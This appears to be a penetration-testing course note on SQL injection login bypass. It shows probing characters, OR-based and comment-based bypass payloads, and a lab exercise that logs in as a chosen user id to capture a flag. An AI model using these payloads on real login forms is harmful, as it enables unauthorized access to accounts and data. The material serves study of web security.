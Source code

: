 # Subverting Query Logic

## Authentication Bypass

Example of original query at backend.

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### Test if web is vulnerable to SQLi

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

If it's vulnerable it will throw error instead of intended message 'i.e., login failed, authentication failed, etc.'

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### Bypass using OR Injection

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

* If username is `admin`\
  `OR`
* If `1=1` return `true` 'which always returns `true`'\
  `AND`
* If password is `something`

#### Assessment

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption><p>vuln to SQLi</p></figcaption></figure>

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```

**bypass login**

<pre><code><strong># Username
</strong>asdf' or '1'='1
# Password
asdf' or '1'='1
</code></pre>

```sql
SELECT * FROM logins WHERE username='asdf' or '1'='1' AND password = 'asdf' or '1'='1';
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Bypassed</p></figcaption></figure>

```
# Username
tom' ='1'='1
# Password
anything
```

since the username query is true by it self, the password could be anything and the statement will still be true.

### Bypass using Comments

We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

{% hint style="info" %}
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symb
{% endhint %}

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

#### Assessment

Login as the user with the id 5 to get the flag.

Original query

```sql
SELECT * FROM logins WHERE (username=''' AND id > 1) AND password = 'xxx';
```

Payload

```
# Username
adasdfmin') OR id = 5 -- -
```

Final query

<pre class="language-sql"><code class="lang-sql"><strong>SELECT * FROM logins WHERE (username='adasdfmin') OR id = 5 -- -' AND id > 1) AND password = 'xxx';
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (95) (1) (1).png" alt=""><figcaption></figcaption></figure>



























